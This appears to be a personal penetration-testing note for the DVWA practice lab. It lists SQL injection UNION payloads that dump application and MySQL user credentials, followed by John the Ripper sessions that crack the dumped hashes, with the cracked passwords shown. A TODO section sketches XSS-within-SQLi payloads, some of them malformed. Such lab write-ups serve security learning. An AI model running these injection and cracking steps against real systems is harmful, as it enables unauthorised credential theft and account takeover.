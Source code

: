 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - post-exploitation
  - server-side-attack
  - sql-injection
  - union
  - credential-access-and-dumping
  - dvwa
---
```

# 02 - Data Collection

## 2.1 - Dump Credentials

### 2.1.1 - Current Database Credentials

- This is useful when grabbing the credentials to find a login panel with administrative privileges. Moreover, it is possible to reuse the credentials when facing network protocols. Let's query the credentials from the current database.

```sql
' UNION SELECT user, password FROM users#
```

![[01 - Dump Credentials From Current DB.png]]

- Let's concatenate it to organize it nicely.

```sql
' UNION SELECT user || ':' || password, NULL FROM users#

' UNION SELECT concat(user,':',password), NULL FROM users#

' UNION SELECT concat(user,0x3a,password), NULL FROM users#

' UNION SELECT group_concat(user,':',password), NULL FROM users#

' UNION SELECT group_concat(user,0x3a,password), NULL FROM users#

' UNION SELECT concat(user,'~',password), NULL FROM users#

' UNION SELECT group_concat(user,'~',password), NULL FROM users#

' UNION SELECT concat(user,'\n',password), NULL FROM users#

' UNION SELECT concat(user,0x0a,password), NULL FROM users#

' UNION SELECT group_concat(user,0x0a,password), NULL FROM users#
```

![[02 - Formatted Dumped Credentials From Current DB.png]]

Copy the concatenated usernames and hashed credentials and output it in a file.

```
$ echo "admin:5f4dcc3b5aa765d61d8327deb882cf99,gordonb:e99a18c428cb38d5f260853678922e03,1337:8d3533d75ae2c3966d7e0d4fcc69216b,pablo:0d107d09f5bbe40cade3de5c71e9e9b7,smithy:5f4dcc3b5aa765d61d8327deb882cf99" | tr "," "\n" > current_db_hashes.txt
```

### 2.1.2 - Crack Current Database Password Hashes

Let's identify what hash algorithm it uses before we could crack it. Let's run [[Name-That-Hash]].

```
$ nth --no-banner --no-hashcat --text '5f4dcc3b5aa765d61d8327deb882cf99'

5f4dcc3b5aa765d61d8327deb882cf99

Most Likely 
MD5, JtR: raw-md5 Summary: Used for Linux Shadow files.
MD4, JtR: raw-md4
NTLM, JtR: nt Summary: Often used in Windows Active Directory.
Domain Cached Credentials, JtR: mscach

Least Likely
Domain Cached Credentials 2, JtR: mscach2 Double MD5,  Tiger-128,  Skein-256(128),  Skein-512(128),  Lotus Notes/Domino 5, JtR: lotus5 
md5(md5(md5($pass))), Summary: Hashcat mode is only supported in hashcat-legacy. md5(uppercase(md5($pass))),  md5(sha1($pass)),  
md5(utf16($pass)), JtR: dynamic_29 md4(utf16($pass)), JtR: dynamic_33 md5(md4($pass)), JtR: dynamic_34 Haval-128, JtR: haval-128-4 RIPEMD-128, 
JtR: ripemd-128 MD2, JtR: md2 Snefru-128, JtR: snefru-128 DNSSEC(NSEC3),  RAdmin v2.x, JtR: radmin Cisco Type 7,  BigCrypt, JtR: bigcrypt
```

We will crack the `raw-md5` hashes with [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xC - Password Cracking/Offline/John The Ripper/Usage|John The Ripper (JTR)]] with a dictionary attack using `/usr/share/wordlists/rockyou.txt.gz` wordlist.

```
$ sudo gzip -cdk /usr/share/wordlists/rockyou.txt.gz > /usr/share/wordlists/rockyou.txt
```

All the hashed credentials are cracked.

```
$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt current_db_hashes.txt
Using default input encoding: UTF-8
Loaded 4 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
password         (admin)
abc123           (gordonb)
letmein          (pablo)
charley          (1337)
4g 0:00:00:00 DONE (2023-10-04 10:51) 80.00g/s 61440p/s 61440c/s 92160C/s my3kids..dangerous
Warning: passwords printed above might not be all those cracked
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

TODO: Add XSS for easier view

```sql
' UNION SELECT group_concat(user,':',password), <script>alert()</script>, NULL FROM users#

' UNION SELECT group_concat(user,':',password), <hex_encoded_XSS>, NULL FROM users#

' <script>alert(UNION SELECT group_concat(user,':',password), NULL FROM users)</script>#

' <script>alert(UNION SELECT group_concat(user,0x3a,password), NULL FROM users)</script>#
```

### 2.1.3 - MySQL Hashdump

- This will be useful for authenticating the MySQL DBMS server with an exposed port that allows the attacker the harvest the whole database. In addition, sometimes system administrators reuse the credentials which gives the attacker a leverage authenticate it remotely. Run a port scanner with a fingerprinting tool `nmap` to find open ports. Let's query the credentials from the MySQL server database.

```sql
' UNION SELECT user, password FROM mysql.user#
```

![[03 - Hashdump From DBMS.png]]

```sql
' UNION SELECT user || ':' || password, NULL FROM mysql.user#

' UNION SELECT concat(user,':',password), NULL FROM mysql.user#

' UNION SELECT concat(user,0x3a,password), NULL FROM mysql.user#

' UNION SELECT group_concat(user,':',password), NULL FROM mysql.user#

' UNION SELECT group_concat(user,0x3a,password), NULL FROM mysql.user#

' UNION SELECT concat(user,'~',password), NULL FROM mysql.user#

' UNION SELECT group_concat(user,'~',password), NULL FROM mysql.user#

' UNION SELECT concat(user,'\n',password), NULL FROM mysql.user#

' UNION SELECT concat(user,0x0a,password), NULL FROM mysql.user#

' UNION SELECT group_concat(user,0x0a,password), NULL FROM mysql.user#
```

![[04 - Formatted Hashdump From DBMS.png]]

Copy the concatenated hashdump credentials and output it in a file.

```
$ echo "root:*4F56EF3FCEF3F995F03D1E37E2D692D420111476,dvwa:*D7E39C3AF517EC9EF7086223B036E0B4F22821F8" | tr "," "\n" > mysql_hashes.txt
```

### 2.1.4 - Crack MySQL Server Password Hashes

Let's identify what hash algorithm it uses before we could crack it. Let's run [[Haiti]].

```
$ haiti --john-only "*4F56EF3FCEF3F995F03D1E37E2D692D420111476"
MySQL5.x [JtR: mysql-sha1]
MySQL4.1 [JtR: mysql-sha1]
```

We will crack the `mysql-sha1` hashes with [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xC - Password Cracking/Offline/John The Ripper/Usage|John The Ripper (JTR)]] with a dictionary attack using `/usr/share/wordlists/rockyou.txt` wordlist.

```
$ john --format=mysql-sha1 --wordlist=/usr/share/wordlists/rockyou.txt mysql_hashes.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (mysql-sha1, MySQL 4.1+ [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
p@ssw0rd         (dvwa)     
1g 0:00:00:01 DONE (2023-10-04 15:27) 0.5617g/s 8057Kp/s 8057Kc/s 8063KC/sa6_123..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x03 - OS Credential Dumping/Cross Platform/Databases/SQL/Hashdump/MySQL|MySQL Active Enumeration]]

### SecurityIdiots

- [SecurityIdiots: XSS Injection with SQLi (XSSQLi)](https://www.securityidiots.com/Web-Pentest/SQL-Injection/xss-injection-with-sqli-xssqli.html)